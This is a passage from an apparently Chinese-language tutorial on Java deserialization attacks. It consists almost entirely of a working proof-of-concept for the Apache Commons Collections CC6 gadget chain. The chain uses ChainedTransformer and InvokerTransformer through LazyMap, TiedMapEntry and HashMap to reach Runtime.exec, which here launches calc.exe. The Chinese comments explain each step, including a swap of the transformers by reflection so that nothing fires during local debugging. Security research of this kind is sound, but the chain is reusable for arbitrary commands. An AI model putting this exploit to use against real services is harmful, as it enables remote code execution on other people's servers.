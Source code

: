 所以我们只需要让 key 等于 TiedMapEntry 对象。

POC如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class cc6 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "calc.exe" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        //为了避免本地调试时触发命令执行,再构造LazyMap先用一个fakeTransformers对象,等最后要⽣成Payload的
        //时候，再把真正的 transformers 替换进去

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");//为了执行LazyMap#get方法
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");//为了执行HashMap#hash方法

        //将恶意的transformers替换进transformerChain类中
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        //序列化
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        //反序列化
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```